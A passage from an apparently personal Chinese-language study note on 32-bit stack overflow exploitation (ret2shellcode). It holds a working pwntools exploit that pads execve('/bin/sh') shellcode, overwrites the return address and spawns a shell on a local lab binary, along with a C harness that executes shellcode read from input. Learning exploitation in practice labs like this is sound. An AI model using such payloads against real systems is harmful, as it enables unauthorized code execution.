 ```python
cyclic 200 #生成字符串
#gdb 调试程序，运行后 输入所得字符串
#得到溢出地址，使用cyclic计算
cyclic -l 0x62616164
```

![](https://ms-study.oss-cn-chengdu.aliyuncs.com/Binary_study/RE/Snipaste_2021-02-26_21-47-27.png)



#### exp

```python
from pwn import *
context(arch="i386",os ="Linux",log_level = "debug")  #指定环境变量，说明为linux 32位程序
p = process("./Example/ret2shellcode2")
shellcode = asm(shellcraft.sh())   #使用pwntools 自动生成，对应下面的手工生成
shellcode = asm("""   #手工生成
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
xor edx,edx
push 11
pop eax
int 0x80
""")
payload = shellcode.ljust(112,b'a') + p32(0x804a080)  #泄露点便宜为112字节，但是shellcode长度不足，因此需要进行填充
p.sendline(payload)
p.interactive()
```





### 手动制作shellcode

32为程序环境

#### 测试shellcode程序代码

```c
#include <stdio.h>

int main(){
    char *shellcode; //存储shellcode
    read(0,shellcode,1000); //读取shellcode
    void(*run)() = shellcode; //创建函数指针指向shellcode，使其从数据转变为代码
    run();  //运行代码
    return 0;
}
```
